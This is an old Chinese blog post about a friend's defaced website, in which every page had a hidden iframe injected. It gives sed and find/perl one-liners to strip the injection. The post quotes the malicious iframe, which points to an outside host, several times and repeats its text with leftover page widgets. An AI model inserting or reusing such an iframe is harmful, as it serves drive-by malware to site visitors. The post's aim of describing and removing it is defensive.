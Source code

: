 ```yaml
---
author: abloz
comments: true
date: 2009-11-17 06:45:00+00:00
layout: post
link: http://abloz.com/index.php/2009/11/17/site-recruited/
slug: site-recruited
title: 网站中招了？
wordpress_id: 953
categories:
- 技术
---
```


[周海汉](http://blog.csdn.net/ablo_zhou) /文

朋友网站中招了 ，网页全被涂改，每个网页加上了iframe，类似：

<iframe src="http://rx0031.8866.org/xman/2.htm" mce_src="http://rx0031.8866.org/xman/2.htm" width=111 height=0 border=0></iframe>

#  					 				

				

 					  					  					

[周海汉](http://blog.csdn.net/ablo_zhou) /文

朋友网站中招了 ，网页全被涂改，每个网页加上了iframe，类似：

 

[view plain](http://blog.csdn.net/ablo_zhou/archive/2009/11/17/4822986.aspx#)[copy to clipboard](http://blog.csdn.net/ablo_zhou/archive/2009/11/17/4822986.aspx#)[print](http://blog.csdn.net/ablo_zhou/archive/2009/11/17/4822986.aspx#)[?](http://blog.csdn.net/ablo_zhou/archive/2009/11/17/4822986.aspx#)

  1. <iframe src="http://rx0031.8866.org/xman/2.htm" mce_src="http://rx0031.8866.org/xman/2.htm" width=111 height=0 border=0></iframe>

<iframe src="http://rx0031.8866.org/xman/2.htm"  mce_src="http://rx0031.8866.org/xman/2.htm" width=111 height=0  border=0></iframe>

警告，不要乱点该链接，中毒不负责任！！！

 

恰好朋友也是个业余网站管理员，没有做备份什么的。问我怎么办？

想想，只有用脚本了。sed，awk,python

 

1. sed

sed -i -e "s/old/new/g" *

2. find + perl

find . -type f |xargs perl -pi -e "s|old|new|g"

  
  


![](http://img.zemanta.com/pixy.gif?x-id=604183f5-d249-8ce8-b4ca-f5029e8d152c)
